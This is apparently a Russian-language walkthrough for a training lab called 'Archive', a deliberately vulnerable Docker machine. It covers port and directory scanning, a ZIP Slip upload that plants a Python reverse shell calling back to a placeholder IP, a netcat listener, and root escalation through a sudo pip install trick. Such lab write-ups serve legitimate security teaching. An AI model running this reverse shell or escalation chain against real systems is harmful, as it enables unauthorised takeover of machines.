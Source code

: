 # LifeTrainings - занятие от 20.10.2023

### Установка и локальный запуск

Для успешного запуска данной машины требуется установить [docker](https://habr.com/ru/articles/253877/) и выполнить следующую команду из данной директории:
```bash
docker compose up --build -d
```
В случае запуска на локальной машине - некоторые шаги по получению ReverseShell будут другими.
___

### Уязвимая машина Archive (pentest)
___
**Задача:** имея на входе только ip адрес сервиса получить полный доступ (права root) на уязвимой машине

**Решение:**

1. Этап сканирования: 
```bash
masscan -p1-65535 <ip> --rate=1000
```
>-p1-65535 - сканировать порты TCP от 1 до 65535
<ip> - айпи адрес уязвимой машины
--rate=1000 - количество пакетов посылаемое в секунду. При увеличении рейта увеличиться и скорость сканирования, но нектороые данные могут потеряться, т.к. сетевая карта/ширина канала не успеет/не позволит их обработать.

После сканирования известно о 3 открытых портах:
22 tcp - ssh хоста
4444 tcp - ssh проброшенный с контейнера
8080 tcp - web сервис

2. Изучение сайта на порту 8080:
 - Функционал сайта позволяет загружать zip архивы, при этом имеется проверка на валидность zip.
 - Можно просканировать директории через gobuster с каким либо словарем (на сервере под учеткой life доступные словари лежит в директории /wordlist), например как
 ```bash
gobuster -u http://<ip>:8080 -w /wordlist/dirb/common.txt -s "200,204,301,302,307,401,403,500"
```
>Ключ -u указывает на url для сканирования
Ключ -w указывает на словарь, по которому будут перебираться возможные пути и директории на сайте 
Ключ -s перечисляет на какие status code нужно смотреть. Тут необходимо добавить так же 500 ошибку, что бы увидеть возможные проблемные точки сайта.

После фаззинга находим два uri для данного сайта:
    - /console - по этому роуту откроется Flask Debug Console. Можем определить что сайт написан на Python с использованием фреймворка Flask. Позволяет выполнить произвольный код, но необходимо знать PIN-код.
    - /list вызывает ошибку в Debug Console. Позволяет определить что включен DEBUG режим, имеется возможность исполнение произвольного кода (необходимо знать PIN), есть раскрытие путей (можно определить пути ```/app/upload/``` и ```/app/main.py```).

3. Изучив все доступные функции можно сделать вывод, что для успешной аткаки на данный сайт нужно найти и проэксплуатировать уязвимость связанную с загрузкой архивов.
Запрос в гугл по типу ***web zip vulnerabilities*** одной из первых [ссылок](https://security.snyk.io/research/zip-slip-vulnerability) ведет на описание атаки **ZIP Slip**.
Данная атака позволяет перезаписать произвольный файл в системе (если мы знаем его путь).
Исходя из предыдущих пунктов нам известно, что:
- файлы загружаются в директорию ```/app/upload```
- доступный нам для перезаписи файл - ```main.py``` по в директории ```/app/main.py```

То есть, нам необходимо создать файл с именем ```../main.py``` и положить туда [ReverseShell](https://telegra.ph/Reverse-Shell-CHto-ehto-i-zachem-nuzhno-07-22).

4. Для генерации ReverseShell'a можно воспользоваться сервисом [revshells.com](https://www.revshells.com). Подставляем в ip адрес нашего внешнего сервера (с которого запускали сканы), в качестве порта указываем любой порт в диапазоне от 1000 до 65535 (все порты ниже 1000 требуют для запуска root прав), выбираем тип ***Python3 #2*** и копируем код в любой удобный нам редактор.

Далее необходимо привести код в примерно следующий вид:
```python
import socket,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("1.1.1.1",1337));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
import pty; 
pty.spawn("sh")
```

Где вместо ```1.1.1.1``` и ```1337``` будут подставлены значения вашего ip и порта.
Теперь сохраняем этот код с любым именем на локальной системе.

5. Для генерации эксплоита можно воспользоваться готовым кодом, например взять [этот](https://github.com/cesarsotovalero/zip-slip-exploit-example.git).
- Клонируем репозиторий на локальную машину (должен быть установлен git):
```git clone https://github.com/cesarsotovalero/zip-slip-exploit-example.git```
- Заходим в директорию zip-slip-exploit-example:
```cd zip-slip-exploit-example```
- Запускаем файл evilarc.py (требуется установленный python2.7) со следующими параметрами:
```python2.7 evilarc.py --output-file team1.zip -d 1 -o unix main.py```
> --output-file имя создаваемого архива, можно указать любое
-d количество каталогов для обхода (т.е. количество добавляемых ../)
-o unix используемая платформа (win/unix)
main.py имя нашего файла с reverse-shell'ом

6. На сервере (с которого производили сканирование) запускаем listener, который будет ждать приема от нашего ReverseShell. Например так:
```nc -lvp 1337```
> ключ -l позволяет "слушать входящие соединения"
ключ -v включает verbose режим, что позволяет получать более детальную информацию
ключ -p указывает на необходимость "слушать" на порту 1337

На сервере так же установлен pwncat-cs и pwncat, для большего удобства. Так же можно все действия проводить через meterpreter.
7. Загружаем архив созданный на шаге 5 на сайт и жмем submit. Если все действия были проделаны верно, то на стороне listener после строки ```Listening on 0.0.0.0 1337``` должны появиться строки "Connection received on <address>" и "$", что означает что мы успешно получили reverse shell. Проверить можно вбив команду ```id``` и если видим ответ в виде ```uid=1000(appserver) gid=1000(appserver) groups=1000(appserver),27(sudo)``` значит все сделано верно.
8. Т.к. на данный момент мы сидим на сервере под обычной УЗ, а хочется подняться до уровня root (максимально привелегированная УЗ в системах *nix), то необходимо провести анализ на возможность локального повышения привелегий (Local Privilege Escalation или LPE):
- в ответе команды ```id``` можно заметить, что пользователь состоит сразу в нескольких группах - ```appserver``` и ```sudo```. То есть, если бы знали пароль от его УЗ, то могли бы выполнять любые действия от имени root-пользователя, но он нам не известен. 
- В некоторых случаях администраторы *nix систем оставляют возможность пользователям выполнять определенные команды от имени root без ввода пароля, с помощью редактирования файла [sudoers](https://ruvds.com/ru/helpcenter/znakomstvo-s-sudo/sudo-nastroika-faila-etc-sudoers/). Проверить доступно ли нам что-то из этого функционала можно командой ```sudo -l```
- В нашем случае мы можем выполнить команду ```sudo /usr/bin/pip install *``` без ввода пароля, что позволит нам запустить ее от имени пользователя root.
- Для поиска уязвимостей связанных с любыми бинарями в *nix системах есть прекрасный [сайт](https://gtfobins.github.io), где собранны все уловки в одном месте. Так же на сервере был установлен локальный пакет **gtfo**, позволяющий искать в терминале, например как ```gtfo -b pip```
- В нашем случае повышение привелегий сводиться к простому набору нескольких команд указанных в разделе **shell**:
```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
```
- Проверяем удачность запусука через команду ```id``` и видим, что мы являемся root'ом в системе - то есть машина полностью под нашим контролем.

